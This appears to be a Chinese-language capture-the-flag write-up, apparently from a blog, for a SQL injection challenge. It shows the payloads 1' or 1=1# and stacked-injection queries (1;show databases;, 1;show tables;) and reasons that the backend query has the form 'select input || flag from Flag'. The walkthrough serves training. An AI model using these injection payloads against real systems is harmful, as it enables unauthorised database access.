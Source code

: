 
输入0



<img src="https://i-blog.csdnimg.cn/blog_migrate/635fb57aeb581f4f16672262027c67f7.png" alt="" style="max-height:138px; box-sizing:content-box;" />


我们尝试万能密码

```csharp
1' or 1=1#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/899435ab486d41cb4bb5317297af84f1.png" alt="" style="max-height:125px; box-sizing:content-box;" />


不行 我们继续尝试随便注学会的堆叠注入

```sql
1;show databases;
注意这里是  database s 要加上s
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/68002a448f0d2cbea03d4857b4908103.png" alt="" style="max-height:153px; box-sizing:content-box;" />


爆出库 接着爆表

```sql
1;show tables;
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/63246b3fc70a6929ec29fe7d54841b51.png" alt="" style="max-height:170px; box-sizing:content-box;" />


得到 我们尝试直接获取flag

```cobol
1;show columns from Flag;
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/f2c0304510f9fb35b6375f508e78134a.png" alt="" style="max-height:167px; box-sizing:content-box;" />


返回了nonono 说明过滤了 flag

我们开始猜测内置sql语句

```cobol
输入 1 得到数据
输入 0 nonono
 
a||b   MYSQL 中 || = 或
 
1||1  = 1   1||0  = 1   0||0 = 0
 
所以我们猜测 
select 输入 || 列 from 表
select 1 ||flag from Flag
 
这样 如果输入正确 就会输出 1 
如果错误 就会输出 0 即 nonono
 
```
